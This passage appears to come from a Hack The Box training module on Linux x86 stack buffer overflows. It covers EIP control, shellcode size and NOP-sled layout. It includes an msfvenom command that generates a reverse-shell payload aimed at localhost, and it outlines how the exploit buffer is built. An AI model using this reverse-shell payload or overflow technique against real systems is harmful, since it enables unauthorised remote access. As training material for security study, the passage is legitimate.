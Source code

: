 #### Buffer

![Memory layout diagram with sections: .text, .data, .bss, Heap, and Stack. Memory addresses range from 0x00000000 to 0xFFFFFFFF. An arrow shows a buffer overflow from strcpy() in the Stack, affecting ESP, EBP, and EIP registers, with an offset of 1036 bytes and 4 bytes to EIP](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_4.png)

Now we see that we have overwritten the `EIP` with our " `\x66`" characters. Next, we have to find out how much space we have for our shellcode, which then executes the commands we intend. As we control the `EIP` now, we will later overwrite it with the address pointing to our shellcode's beginning.


# Determine the Length for Shellcode

* * *

Now we should find out how much space we have for our shellcode to perform the action we want. It is trendy and useful for us to exploit such a vulnerability to get a reverse shell. First, we have to find out approximately how big our shellcode will be that we will insert, and for this, we will use `msfvenom`.

#### Shellcode - Length

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>

```

We now know that our payload will be about 68 bytes. As a precaution, we should try to take a larger range if the shellcode increases due to later specifications.

Often it can be useful to insert some `no operation instruction` ( `NOPS`) before our shellcode begins so that it can be executed cleanly. Let us briefly summarize what we need for this:

1. We need a total of 1040 bytes to get to the `EIP`.
2. Here, we can use an additional `100 bytes` of `NOPs`
3. `150 bytes` for our `shellcode`.

```shell
   Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4

```

#### Buffer

![Memory layout diagram with sections: .text, .data, .bss, Heap, and Stack. Memory addresses range from 0x00000000 to 0xFFFFFFFF. An arrow shows a buffer overflow from strcpy() in the Stack, affecting ESP, EBP, and EIP registers, with a buffer, NOPs, and shellcode, offset of 1036 bytes, and 4 bytes to EIP](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_8.png)

Now we can try to find out how much space we have available to insert our shellcode.
